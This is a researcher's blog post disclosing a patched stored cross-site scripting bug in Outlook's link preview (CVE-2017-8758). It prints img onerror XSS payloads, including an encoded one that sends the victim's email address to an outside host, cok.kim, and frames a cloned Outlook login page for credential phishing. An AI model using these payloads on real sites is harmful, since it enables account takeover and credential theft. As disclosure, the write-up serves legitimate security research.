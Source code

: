 ```yaml
---
title: 'Uncovering a Bug I Found in Outlook: How Could an Account Has Been Compromised?'
layout: post
date: '2022-12-26 06:26:33'
---
```


### 1. Introduction

This blog post covers a [cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) bug that I found on [Microsoft Outlook](https://en.wikipedia.org/wiki/Microsoft_Outlook).

I realized that it would be a good idea to write about it for myself and for the benefit of the community.

This bug could have allowed hackers to take over a victim's account or gather sensitive data without the victim even opening an email.

### 2. TL;DR - PoC Video

I'm keeping the 1080p, longer, and uncensored version for myself.

[![](https://img.youtube.com/vi/aM2CgwQRlfk/0.jpg)](https://www.youtube.com/watch?v=aM2CgwQRlfk)

### 3 How I Found The Bug

1. The link preview feature was the vulnerable one. However, it only worked with a group of trusted domains. If a domain was not whitelisted, it would not be fetched. So, I searched for random strings on the search bar of Microsoft.com and Xbox.com and I collected domain of the results. It was my way to find these whitelisted domains. These domains did not necessarily had to be owned by Microsoft. For example, creating Prezi presentations was also working.

2. The vulnerable component was not fetching every part of those trusted websites. So, I needed to go and check different fields of those pages, such as changing the title, description, or other parts. I was not able to edit the fetched content on some of the websites because the preview functionality was only fetching HTML meta tags and so on.


3. So, I ended up my search with creating a post on gallery.technet.microsoft.com. This was the post I used for my report: [https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4]( https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4)

4. I used following payload as description/body field and it worked for me:

```html
"><img src=x onerror= JAVASCRIPT-CODE-HERE.
```

5. To trigger the bug, you just need to send the URL in the email and that was it. If a victim opens or clicks the "checkbox", the payload was working.

6. As you can guess, it was possible to edit the payload remotely. After a successful attack you could even remove payloads from that page then the email wouldn't contain anything malicious but an URL of a page owned by Microsoft.

### 4. Technical Details of The PoC

1. As you can see in the PoC video above, I created a fake clone of the Outlook login page in PHP and saved login details into a MySQL database. I wanted to create a targeted (email field dynamically changes) fake page because in the original Outlook login page, it shows your email and asks for the password.


2. It was not possible to fit a big payload, so I needed to include my external JavaScript from my server, but I couldn't do because of the [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) as I remember.


3. The following JavaScript code sends the document.title (which contains the email address of the victim) and creates an iframe of my fake login page. Note: I couldn't find the original payload, but I wrote it manually by looking at my other PoC video, so typos may have happened.

```css
"><img src ="x" onerror="document.write('<iframe src="https://cok.kim/?email='+document.title+'" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100$">')"
```

4. That one was breaking, so I used the following as the final encoded payload (it's different from the PoC video, I guess I made a typo above).

```html
"><img src="x" onerror="document.write(document.write(eval(atob('Ij48aW1nIHNyYyA9IngiIG9uZXJyb3I9ImRvY3VtZW50LndyaXRlKCc8aWZyYW1lIHNyYz0iaHR0cHM6Ly9jb2sua2ltLz9lbWFpbD0nK2RvY3VtZW50LnRpdGxlKyciIHN0eWxlPSJib3JkZXI6IDA7IHBvc2l0aW9uOmZpeGVkOyB0b3A6MDsgbGVmdDowOyByaWdodDowOyBib3R0b206MDsgd2lkdGg6MTAwJTsgaGVpZ2h0OjEwMCQiPicpIg==')))" >
```

5. My server-side code (it parses the email address of the victim from "Posta - victim@outlook.com"):
```php
<?php echo explode("-", $_GET['email'])[1]; ?>
```

## 5. Conclusion

Microsoft rewarded me with $5,000 and assigned a CVE ([CVE-2017-8758](https://msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8758)) for this bug because it was affecting the MS Exchange Server.

In the CVE description, it is written as **"Note: In order to exploit this vulnerability, a user must click a maliciously crafted link from an attacker.".** However, as you can see in the POC video, it was not even necessary to open it. When I asked about this, I learned that Microsoft writes generalized explanations to protect their users.

The PM asked if I would be attending Blackhat that year so we could meet in person. Unfortunately, I couldn't go due to a lack of a visa and funds. I was disappointed when I didn't see my name on the MSRC Top 100 Security Researchers of 2017 list.

For a year, I continued to report similar issues under my name and my nickname ([Arif Isik](https://en.wikipedia.org/wiki/G.O.R.A.#Cast), a movie character).

In 2018, I was listed 35th and Arif was 92nd on the [Microsoft’s Top 100 Security Researchers](https://msrc-blog.microsoft.com/2018/08/08/microsofts-top-100-security-researchers-black-hat-2018-edition/) list. I was also invited to [BlueHat](https://en.wikipedia.org/wiki/BlueHat) and had the chance to meet some engineers and visit the Microsoft headquarters in Seattle.
